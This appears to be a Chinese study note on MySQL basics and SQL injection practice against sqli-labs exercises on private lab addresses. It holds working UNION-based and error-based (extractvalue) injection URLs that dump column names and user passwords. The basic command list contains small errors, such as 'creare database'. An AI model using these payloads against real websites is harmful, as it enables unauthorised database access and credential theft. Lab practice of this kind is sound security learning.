

## 增删改

登录数据库 `mysql -uroot -p`

查看数据库 `show databases;`

创建数据库 `creare database <数据库名>charset utf8`

删除数据库 `drop database <数据库名>`

创建数据表 `create table <数据库名>`

## 数据库查询


## SQL注入基础


```sql
http://172.20.54.84/Less-2/?id=-1 union select 1,group_concat(column_name),(select group_concat(username,password) from users) from information_schema.columns where table_schema=database() and table_name='users' --+
```

## 报错注入





```sql
http://172.28.72.167/Less-5/?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')))--+
```

```sql
http://172.28.72.167/Less-5/?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users )))--+
```
